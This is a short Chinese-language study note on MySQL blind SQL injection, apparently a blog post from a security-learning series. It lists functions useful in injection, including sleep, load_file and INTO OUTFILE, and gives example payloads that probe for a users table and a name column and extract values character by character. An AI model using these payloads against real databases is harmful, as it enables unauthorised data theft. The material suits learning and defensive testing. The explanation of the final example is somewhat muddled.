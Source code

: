 ```yaml
---
layout: post
title: "6.MySQL盲注小结"
subtitle: "6.MySQL盲注小结"
date: 2019-08-01
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

**注入常用的函数**



MID(要截取的字符串，起始位置，结束为止)        // 截取字符串

CHAR(ASCII)                                                         // 返回ASCII码对应的字符

ASCII(字符)                                                            // 返回字符对应的ASCII码值

ord(字符)                                                                // 返回字符对应的ASCII码值

IF(逻辑表达式，True返回值，Flase返回值)           // 逻辑判断

SubStr(要截取的字符串，起始位置，结束为止)    // 截取字符串

length(字符串)                                                       // 返回字符串的长度

count(列名)                                                            // 返回当前列名下有效记录数*(NULL不计入)*

sleep(s)                                                                  // 延时s秒

\#、/**/、--                                                             // 注释符

concat(字符串1,字符串2)                                       // 拼接字符串

load_file(文件路径及名称)                                      // 直接加载文件到源码中

INTO OUTFILE '文件路径及名称'                          // 输出





**判断是否存在users表名**

```mysql
select * from users where id=1 and 0<(select count(*) from users);   
```

*// 返回真则存在users表名*



**判断是否存在name字段**

```mysql
select * from users where id=1 and 0<(select count(name) from users);   
```

*// 返回真则存在name字段*



**取出 name 字段内容**

```mysql
select * from users where id=1 and 'g' = mid((select name from users limit 1),8,1);
```

*// 'g' 是遍历的,后面的为真则递增加1，一直到8说明name字段的长度为8位；*

*// 在递增加1的话则永远为假，到这个时候脚本就可以停止了。*